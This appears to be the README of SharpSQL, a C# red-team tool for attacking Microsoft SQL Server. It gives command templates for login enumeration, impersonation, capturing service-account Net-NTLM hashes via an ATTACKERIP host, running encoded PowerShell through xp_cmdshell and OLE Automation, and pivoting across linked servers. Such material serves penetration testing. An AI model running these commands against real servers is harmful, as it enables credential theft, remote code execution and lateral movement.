 # SharpSQL

----

SharpSQL is a C# tool for Microsoft SQL interaction and abuses. 

### Command Line Usage

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.2.0 (02/23/2023)

    MSSQL Authenticated Server Enumeration and Impersonation:

        [1] Retrieve Login Information on the Connected SQL Server:
                SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
                SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
                SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
                SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Command Execution:
    
        [1] Base64 Encode an Arbitrary String for the '/command' Switch:
                SharpSQL.exe encode /command:STRING
        [2] Execute Arbitrary Encoded PowerShell Command via 'xp_cmdshell':
                SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Arbitrary Encoded PowerShell Command via 'Ole Automation Procedures':
                SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Linked SQL Server:
                SharpSQL.exe linkedlogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxplogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Linked SQL Server:
                SharpSQL.exe linkedhash /db:DATABASE /server:SERVER /target:TARGET /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
                SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [5] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [6] Configure Linked SQL Server to Allow RPC connections:
                SharpSQL.exe linkedrpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Double Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Double-Linked SQL Server:
                SharpSQL.exe dbllinkedlogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Double-Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxplogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

### getlogin
![](../images/getlogin.png)

### getdbuser
![](../images/getdbuser.png)

### gethash
![](../images/gethash.png)

### getlinked
![](../images/getlinked.png)

### encode
![](../images/encode.png)

### xp
![](../images/xp.png)

### linkedlogin
![](../images/linkedlogin.png)

### linkedxplogin
![](../images/linkedxplogin.png)

### linkedhash
![](../images/linkedhash.png)

### linkedxp
![](../images/linkedxp.png)

### linkedrpc
![](../images/linkedrpc.png)

### dbllinkedlogin
![](../images/dbllinkedlogin.png)

### dbllinkedxplogin
![](../images/dbllinkedxplogin.png)

### dbllinkedxp
![](../images/dbllinkedxp.png)